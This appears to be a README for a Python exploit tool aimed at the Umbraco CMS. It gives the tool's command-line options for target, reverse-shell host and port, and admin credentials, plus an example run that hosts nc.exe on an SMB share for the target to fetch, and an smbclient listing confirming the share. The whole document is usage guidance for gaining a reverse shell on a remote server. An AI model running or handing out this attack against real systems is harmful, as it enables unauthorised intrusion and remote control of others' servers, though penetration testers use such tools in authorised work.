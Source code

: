 # Easy-embraco-SMB

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT] [--load LOAD] --user USER --passw PASSW

optional arguments:\
  \-h, \-\-help            show this help message and exit\
  \--target TARGET, \-t TARGET Target IP address\
  \--host HOST, \-x HOST  IP for reverse shell\
  \--port PORT, \-p PORT  Port for reverse shell\
  \--load LOAD, \-l LOAD  Path to file or script to provide to the public\
  \--user USER, \-P USER  User name for Umbraco\
  \--passw PASSW, \-U PASSW  Password for Umbraco\


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe

## Confirmation SMB is hosting our nc.exe file
sudo smbclient -H \\\\127.0.0.1\\share\

smb: \> dir\
  .      \
  ..     \
  nc.exe 
